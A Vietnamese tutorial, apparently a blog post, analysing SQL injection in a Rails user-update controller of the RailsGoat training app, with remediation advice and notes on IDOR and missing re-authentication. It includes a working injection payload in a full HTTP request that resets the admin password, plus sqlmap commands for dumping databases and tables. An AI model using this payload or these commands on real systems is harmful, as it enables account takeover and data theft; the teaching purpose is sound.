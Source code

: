 # I. Tổng quan vấn đề bảo mật trong Rails
Bảo mật là một trong những vấn đề được các nhà phát triển các framework hiện nay quan tâm rất nhiều và luôn cố gắng nâng cấp, phát triển và cải thiện vấn đề bảo mật cho sản phẩm của họ. Rails framework cũng được các nhà phát triển đưa vào các chức năng, các function hỗ trợ việc ngăn chặn các lỗ hổng bảo mật có thể xảy ra với ứng dụng web. Tuy nhiên dù được hỗ trợ để ngăn chặn các lỗ hổng bảo mật, nhưng việc các lập trình viên sử dụng không đúng theo hướng dẫn từ nhà phát triển hoặc không sử dụng các chức năng, function đó dẫn đến việc các ứng dụng Rails vẫn tồn tại các lỗ hổng bảo mật. Ngoài các lỗ hổng bảo mật đến từ lập trình, việc thiết kế phần mềm không an toàn cũng dẫn đến các nguy cơ về lộ lọt thông tin gây ảnh hưởng nghiêm trọng tới bảo mật của hệ thống. Vì vậy, việc hiểu về các lỗ hổng bảo mật cũng như cách phòng tránh giúp các lập trình viên có thể lập trình ứng dụng an toàn hơn.
# II. Một số lỗ hổng bảo mật phổ biến
Trong bài viết này mình sẽ đi sâu phân tích nguyên nhân, cách khai thác và khuyến nghị cho lỗ hổng SQL Injection trong ứng dụng Rails. Đây là lỗ hổng khá phổ biến và các hậu quả vô cùng nghiêm trọng. Dù Rails đã hỗ trợ việc chống lỗ hổng SQL Injection tuy nhiên việc lập trình viên áp dụng không tốt có thể dẫn đến những hậu quả nghiêm trọng.
## 1. Lỗ hổng SQL Injection
### Nguyên nhân
- Lỗ hổng SQL Injection xảy ra khi ứng dụng không thực hiện kiểm tra và xử lý dữ liệu đầu vào của người dùng trước khi được truyền vào các câu truy vấn SQL. Qua các dữ liệu truyền vào là dữ liệu độc hại, hacker có thể khiến ứng dụng hoạt động sai logic và trả về dữ liệu nhạy cảm của hệ thống hoặc phá hoại dữ liệu của hệ thống
### Phân tích lỗi trong code
- Phân tích việc xử lý dữ liệu truyền vào của user trong controller: `app/controllers/users_controller.rb`
```ruby
  def update
    message = false

    user = User.where("id = '#{params[:user][:id]}'")[0]

    if user
      user.update_attributes(user_params_without_password)
      if params[:user][:password].present? && (params[:user][:password] == params[:user][:password_confirmation])
        user.password = params[:user][:password]
      end
      message = true if user.save!
      respond_to do |format|
        format.html { redirect_to user_account_settings_path(user_id: current_user.id) }
        format.json { render json: {msg: message ? "success" : "false "} }
      end
    else
      flash[:error] = "Could not update user!"
      redirect_to user_account_settings_path(user_id: current_user.id)
    end
  end
```

Đoạn code trên thực hiện tìm kiếm user qua truy vấn SQL sử dụng hàm `where` và truyền trực tiếp dữ liệu của người dùng vào câu truy vấn thông qua `#{params[:user][:id]}`. Người dùng hoàn toàn có thể tùy biến dữ liệu thông qua request gửi lên ứng dụng.

Dữ liệu này trước khi được truyền vào câu truy vấn SQL không đi qua bất kì hàm xử lý hay kiểm tra nào dẫn đến hậu quả kẻ tấn công có thể truyền vào những câu truy vấn nguy hiểm.
### Khai thác lỗ hổng bằng tay
Chức năng bị lỗi SQL injection ở đây là chức năng cập nhật thông tin user.

Thực hiện cập nhật thông tin user và bắt lại request bằng Burpsuite (Một công cụ proxy giúp chúng ta có thể monitor request trước khi trình duyệt gửi lên server). Mặc dù chúng ta thấy không hề có input nhập `user[id]` ở trong form nhưng request gửi lên vẫn có tham số này. Vì vậy chúng ta cần kiểm soát tất cả các tham số chứ không chỉ những tham số có trong form. Công cụ BurpSuite giúp chúng ta dễ dàng quan sát được.

![](https://images.viblo.asia/25aa20e1-219d-4d63-bcab-b0b4a6c00eaf.png)

Quan sát vào request gửi lên chúng ta thấy tham số trong request được gửi lên từ user có param: `user[id]=5` đây là tham số chúng ta có thể thay đổi trước khi dữ liệu được truyền lên server và từ đó khai thác lỗ hổng SQL Injection

Khai thác bằng cách thay đổi id thành: `user[id]=5') OR admin = true -- '`. Và thực hiện sửa request thành request đổi mật khẩu user. Lúc này câu truy vấn của chúng ta sẽ thực hiện như sau:
![](https://images.viblo.asia/2beda111-79b3-493d-a986-b52b3f751f25.png)

Request update password:
```
POST /users/5.json HTTP/1.1
Host: 52.221.254.93:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: */*
Accept-Language: en-US,vi-VN;q=0.8,vi;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://52.221.254.93:3000/users/5/account_settings
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 304
Origin: http://52.221.254.93:3000
Connection: close
Cookie: _railsgoat_session=Tys5bmR2WjlzeC85S3J3MXZuUmsxcWxIRmg3TXcwRGRaa1BCZEJOZWpJQmVqam5BbXlRaS9OMFhsVmRIUDBUbjJXcVhFSHZKVm9WZnJSanNMMTJXQUFyaFdJTFFycmEzdWFOVExSTnRjR2FTUUVGUytBdkdyZHkyVkhGRlRQWm1pNXF5RmMweDJxcFFFNlhmTEY2VnJFNjFQa1R0aTIxWmJIaXhTbzNBYUF3UjErS3N2ekkva1R6em9PNi9tbjJqLS1EcjY3Si9WaGFOOE05b3lQME9vT0lRPT0%3D--8bd4019df4e59ac5e3a2ec9de0dda3c4bf56abea; auth_token=u0gA5sWbAxvmMJPGCOlyHA%3D%3D

utf8=â&_method=patch&authenticity_token=4s4+r38qEeqTO3qszjXfZWREbh7FJbn5pVFyzQyHMpjEEWEwfcesAx5lclgmO+sT8lXAbyQPmpp6hDEIksqYWA==&user[id]=5')+OR+admin+%3d+true+--+'&&user[password]=password&user[password_confirmation]=password
```

Câu truy vấn SQL sẽ trở thành:
```ruby
user = User.where("id = '5') OR admin = true -- ''")[0]
```
Kết quả của câu truy vấn sẽ là user có trường `admin = true` , đó chính là tài khoản admin. Và các lệnh update bên dưới sẽ thực hiện việc update thông tin với user này. 
Từ kết quả này chúng ta có thể đổi được password của admin thành mật khẩu chúng ta mong muốn.

### Khai thác lỗ hổng bằng công cụ
Công cụ để khai thác lỗ hổng SQL Injection ở đây là công cụ **SQLmap** một công cụ phổ biến và rất mạnh để khai thác lỗ hổng SQL Injection.
Các bạn có thể chạy SQLmap bằng 2 cách sau"
**Cách 1**: Sử dụng công cụ SQLmap có sẵn trong hệ điều hành Kali Linux

**Cách 2**: Cài đặt python2 hoặc python3. Sau đó clone thư mực sqlmap về và chạy: https://github.com/sqlmapproject/sqlmap

**Hướng dẫn khai thác:**

**Bước 1**: Thực hiện cập nhật user và bắt lại request. Sau đó lưu request vào 1 file txt để khai thác

**Bước 2**: Chạy lệnh: `sqlmap -r dump --risk 3 --technique=BT --random-agent` để kiểm tra lỗi SQL Injection và xác định tham số bị lỗi

**Bước 3**: Chạy lệnh: `sqlmap -r dump --risk 3 --technique=BT --random-agent --dbs` Khai thác lấy database
Tên database: `development_railsgoat`

**Bước 4**: Chạy lệnh: `sqlmap -r dump --risk 3 --technique=BT --random-agent -D development_railsgoat --tables` Để dump các tables trong database
Kết quả:

![](https://images.viblo.asia/f142b353-b33f-45aa-aa86-97ac5a55cb28.png)


### Khuyến nghị
Khi thực hiện việc phát triển chức năng này, lập trình viên cần lưu ý không thực hiện truyền trực tiếp dữ liệu của người dùng vào câu truy vấn SQL khi chưa thực hiện kiểm tra và xử lý dữ liệu đầu vào từ phái người dùng.

Thực hiện tham số hóa các câu truy vấn SQL. Các truy vấn tham số tách biệt truy vấn SQL khỏi dữ liệu động và loại bỏ dữ liệu nguy hiểm.
```ruby
User.where("id = ?", params[:user][:user_id]).first
```
```ruby
User.find(id: params[:user][:user_id])
```
Hoặc đơn giản là sử dụng hàm `current_user` của Rails để xác định user đang được phép thực hiện hành động:
```ruby
  def update
    message = false

    user = current_user

    if user
      user.update_attributes(user_params_without_password)
      if params[:user][:password].present? && (params[:user][:password] == params[:user][:password_confirmation])
        user.password = params[:user][:password]
      end
      message = true if user.save!
      respond_to do |format|
        format.html { redirect_to user_account_settings_path(user_id: current_user.id) }
        format.json { render json: {msg: message ? "success" : "false "} }
      end
    else
      flash[:error] = "Could not update user!"
      redirect_to user_account_settings_path(user_id: current_user.id)
    end
  end
```

### Phân tích thêm về vấn đề
Ngoài lỗ hổng SQL Injection mà ứng dụng  bị lỗi ở đây thì website còn gặp phải một số vấn đề khác gây ra các lỗi về bảo  mật nghiêm trọng ở đây:

**Vấn đề thứ 1**: Không xác định được `user[id]` đang cập nhật và `user[id]` được truyền vào câu truy vấn dẫn đến lỗ hổng IDOR (Insecure Direct Object Reference) sẽ được phân tích kỹ hơn ở các bài viết tiếp theo. Chỉ cần đổi id từ `5` thành `4` chúng ta sẽ cập nhật được thông tin của user có id là 4. Vấn đề này có thể được xử lý bằng cách sử dụng hàm `current_user` như khuyến nghị trên để xác định user đang thực hiện hành động cập nhật thông tin.

**Vấn đề thứ 2**: Chức năng đổi mật khẩu không yêu cầu mật khẩu hiện tại. Chức năng đổi mật khẩu là một chức năng quan trọng và cần người dùng thực hiện re-authenticate (nhập mật khẩu hiện tại). Tuy nhiên ứng dụng đang cho phép đổi mật khẩu mà không cần nhập mật khẩu hiện tại. Khi kết hợp với lỗi IDOR ở vấn đề 1 sẽ gây ra lỗi chiếm quyền tài khoản bất kỳ bằng cách đổi mật khẩu của người dùng khác. Để giải quyết vấn đề. lập trình viên cần yêu cầu thêm người dùng nhập mật khẩu hiện tại và thực hiện kiểm tra trên phía server.
2 vấn đề trên cũng là những vấn đề bảo mật mà lập trình viên cần lưu ý tránh gặp phải trong quá trình phát triển ứng dụng Rails.
# Tổng kết
Qua việc phân tích lỗ hổng SQL Injection chúng ta có thể thấy việc kiểm tra và dữ liệu đầu vào của người dùng là hết sức quan trọng. Nó không chỉ giúp lập trình viên hạn chế các lỗ hổng bảo mật cho ứng dụng web mà còn giúp bảo vệ các lỗi logic khác không mong muốn. Mình mong bài viết đem lại nhiều kiến thức bổ ích về lỗ hổng và lập trình an toàn. Các bài viết sau trong series sẽ tiếp tục với các lỗ hổng khác, rất mong các bạn sẽ đón đọc.